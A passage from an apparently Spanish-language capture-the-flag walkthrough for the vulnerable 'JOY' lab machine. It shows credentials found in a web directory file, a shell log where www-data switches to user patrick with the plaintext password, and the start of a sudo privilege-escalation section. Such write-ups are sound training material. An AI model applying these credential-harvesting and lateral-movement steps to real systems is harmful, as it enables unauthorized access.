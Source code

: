 - Dentro de la carpeta /var/www/tryingharderisjoy/ossec encontramos el archivo "patricksecretsofjoy" que contiene credenciales de acceso.

<img src="https://github.com/El-Palomo/JOY/blob/main/joy14.jpg" widht=80% />

- El password para el usuario PATRICK funciona bien.

```
www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
su patrick
Password: apollo098765

patrick@JOY:/var/www/tryingharderisjoy/ossec$ whoami
whoami
patrick
patrick@JOY:/var/www/tryingharderisjoy/ossec$ 
```


## 5. Elevar Privilegios

### 5.1. SUDO para elevar privilegios

- Como siempre toca evaluar todos los posibles caminos, esta vez se puede elevar privilegios a través de SUDO.
